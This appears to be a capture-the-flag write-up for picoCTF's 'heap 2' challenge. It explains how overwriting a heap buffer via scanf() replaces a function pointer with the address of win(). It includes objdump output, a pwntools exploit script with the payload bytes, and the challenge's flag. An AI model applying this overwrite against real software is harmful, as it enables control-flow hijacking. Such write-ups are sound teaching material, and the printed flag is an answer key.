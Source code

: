 # heap 2

Can you handle function pointers? Download the binary [here](https://artifacts.picoctf.net/c_mimas/51/chall). Download the source [here](https://artifacts.picoctf.net/c_mimas/51/chall.c).

Looking at the source code, we see that the `check_win()` function is as follows:

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Ultimately, this treats the value of `x` as an address of a function and then calls that function. In full:

- `(int*)x`: Treat `x` (already declared as `char *x`) as a pointer to an `int`.
- `*(int*)x`: Dereference the `int*` to get the integer value stored at the memory location `x` points to (this value is assumed to be a function address).
- `(void (*)())`: Cast the integer value to a `void (*)()` function pointer type (a pointer to a function that takes any arguments and returns `void`).
- `((void (*)())*(int*)x)()`: Call the function at the address obtained in the previous step.

As we can still overwrite the buffer due to the use of `scanf()`, we can rewrite the contents of `x` with the address of `win()` to get the flag.

Running `objdump`, we see the address of `win()` is `00000000004011a0`.

```
$ objdump -D chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

We can then use the 32 bytes, followed by this address converted to little endian (reversed):

```python
from pwn import *

p = remote('mimas.picoctf.net', 58912)

p.sendline(b'2')  # Choose option 2 'write to buffer'

p.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00')  # Send payload with address of win() at the end

p.sendline(b'4')  # Choose option 4 'print flag'

p.interactive()
```

```
picoCTF{and_down_the_road_we_go_dbb7ff66}
```